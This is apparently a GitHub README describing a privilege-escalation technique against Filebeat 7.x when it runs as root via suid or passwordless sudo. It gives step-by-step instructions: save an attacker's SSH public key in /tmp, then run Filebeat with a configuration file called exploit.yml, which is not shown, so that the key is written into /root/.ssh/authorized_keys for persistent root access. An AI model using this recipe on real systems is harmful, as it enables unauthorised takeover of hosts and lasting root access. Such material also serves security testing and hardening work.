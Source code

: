 # Filebeat-7.x-Privilege-Escalation
It has been quite few times I have seen Filebeat running as root and capable of running it as root (suid or NOPASSWD).  In fact, the documentation suggests to run filebeat as sudo. https://www.elastic.co/guide/en/beats/filebeat/current/filebeat-starting.html

Here the steps to leverage the filebeat to obtain a shell as root. (arbitrary write in the filesystem).

The following exploit.yml is meant to add the "attacker ssh" key to the authorized_keys file.


Dowload the file exploit.yml.

1) Save your public key in the following file /tmp/attackerkey. 


```
$ cat /tmp/attackerkey 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDSNDOAMkNcqtwWnG[...]4Cn1s0XfNOEmXYQBPJUZN65kPL+oMNqRM2h1DfIEJY4g+RD/NMDffsEizLxdnlpf30LjZtQ== luigi@lt
```
 
3) Run the follwowing command

```
 ./filebeat -c exploit.yml
```

5) Enjoy your key added to /root/.ssh/authorized_keys




Thank you.

